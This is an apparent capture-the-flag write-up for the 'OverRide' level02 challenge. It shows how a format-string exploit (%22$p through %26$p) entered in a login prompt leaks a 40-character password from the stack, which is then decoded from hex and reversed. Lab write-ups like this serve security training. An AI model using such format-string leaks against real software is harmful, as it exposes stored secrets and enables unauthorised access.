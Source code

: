 We get the binary out of the Vm using this cmd:

`scp -P 4242 level3@192.168.56.103:./level3 .binary/level3`

We can see line 44 in the source.c we can use a format string attack so let's find where on the stack our password id :
```
level02@OverRide:~$ ./level02 
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: %c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,
	--[ Password: *****************************************
	�,,%,*,*,�,%,,,c,,,,,,,,,,,,H,Q,X,s,M,,%,,,c,%,,,c, does not have access!
```
We can find some char starting at pos 22, and we know the password is 40 char long

```
level02@OverRide:~$ ./level02
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: %22$p
	--[ Password: 
	*****************************************
	0x756e505234376848 does not have access!
```
We can find the first 8 char from this so let's get the 32 next !

```
level02@OverRide:~$ ./level02 
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: %22$p %23$p %24$p %25$p %26$p
	--[ Password: 
	*****************************************
	0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```
Now we convert 
* 0x756e505234376848 => unPR47hH
* 0x45414a3561733951 => EAJ5as9Q
* 0x377a7143574e6758 => 7zqCWNgX
* 0x354a35686e475873 => 5J5hnGXs
* 0x48336750664b394d => H3gPfK9M

We just need to reverse them now and we get
`Hh74RPnu` `Q9sa5JAE` `XgNWCqz7` `sXGnh5J5` `M9KfPg3H`
`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`
